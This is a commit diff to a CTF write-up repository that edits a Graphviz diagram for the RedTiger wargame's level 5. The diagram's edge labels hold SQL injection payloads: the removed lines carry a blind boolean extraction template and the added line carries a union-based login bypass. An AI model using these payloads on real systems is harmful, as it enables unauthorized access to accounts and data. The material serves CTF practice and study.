

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/[redtiger] level5.rst, drawn with Graphviz. The commit also changed 2 other files, not shown here.

Commit message:
update
update

```diff
--- a/docs/web/[redtiger] level5.rst
+++ b/docs/web/[redtiger] level5.rst
@@ -5,23 +5,21 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
             "client" -> step0 -> step2 -> step4 -> step6 -> step8;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
             "server" -> step1 -> step3 -> step5 -> step7 -> step9;
         }
-        step0 -> step1[label="level4.php?id=1 and if((select length(keyword) from level4_secret)=%s,1,0)",arrowhead="normal"];
-        step3 -> step2[label="column length",arrowhead="normal"];
-        step4 -> step5[label="level4.php?id=1 and if((select substring(keyword,%s,1) from level4_secret)=%s,1,0)",arrowhead="normal"];
-        step7 -> step6[label="@solve",arrowhead="normal"];
+        step0 -> step1[label="username=' union select 'joizel','0cc175b9c0f1b6a831c399e269772661&password=a&login=Login",arrowhead="normal"];
+        step3 -> step2[label="@solve",arrowhead="normal"];
     }
```
